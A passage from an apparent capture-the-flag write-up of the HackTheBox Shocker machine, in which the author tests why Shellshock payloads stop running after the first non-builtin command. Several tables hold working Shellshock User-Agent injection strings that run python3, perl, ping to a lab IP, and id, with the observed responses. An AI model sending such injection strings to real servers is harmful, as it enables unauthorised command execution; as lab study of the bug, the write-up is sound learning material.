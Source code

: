 
I started doing experiments to see what the issue could be.

UA String | HTTP Code | Pings at tcpdump | Output in Resp  
---|---|---|---  
`User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo")'; /bin/ping -c 1 10.10.14.15` | 200 | 0 | None  
`User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("/bin/ping -c 1 10.10.14.15")'; /bin/ping -c 1 10.10.14.15` | 500 | 1 | Error  
`User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo; /bin/ping -c 2 10.10.14.15")'; /bin/ping -c 1 10.10.14.15` | 200 | 2 | Ping results from Python  
`User-Agent: () { :;}; echo; /usr/bin/python3 -c 'import os; os.system("/bin/ping -c 1 10.10.14.15")'; /usr/bin/id` | 200 | 1 | Ping results  
  
I noticed pretty quickly that nothing after Python runs. I spent a while
trying to figure out what was weird about Python, but that was the wrong way
to look at it. I eventually tried Perl:

UA String | HTTP Code | Pings at tcpdump | Output in Resp  
---|---|---|---  
`User-Agent: () { :;}; /usr/bin/perl -e 'print "\n"'; /bin/ping -c 1 10.10.14.15` | 200 | 0 | None  
  
Same result. What about `ping` after `ping`?

UA String | HTTP Code | Pings at tcpdump | Output in Resp  
---|---|---|---  
`User-Agent: () { :;}; echo; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15;` | 200 | 1 | One set of pings  
  
It’s looking more and more that any command kills the execution. So why not
`echo`? Well, `echo` is a Bash builtin. What about other builtins (see `man
bash`), like `printf` and `dirs`?

UA String | HTTP Code | Pings at tcpdump | Output in Resp  
---|---|---|---  
`User-Agent: () { :;}; printf "\n"; /usr/bin/id` | 200 | N/A | `id`  
`User-Agent: () { :;}; echo; dirs; /usr/bin/id` | 200 | N/A | output of `dirs` and `id`  
  
At this point, I don’t have any proof (I could go debugging Apache, but ugh,
threads, sounds like a huge pain). I do have a good theory that I can’t find
counter-examples for, and it’s this: Shellshock will run as many Bash builtins
as given up to the first binary called and then stop. A slight caveat to that
is that pipes don’t seem to break it. For example, I can pipe `id` into `cut`
to get the first 10 characters of output without issue, even though neither
`cut` nor `id` are builtins:

![image-20210517213416440](https://0xdfimages.gitlab.io/img/image-20210517213416440.png)

`;`, `&&`, and `||` following a all seem to break execution at that point.

[](/2021/05/25/htb-shocker.html)

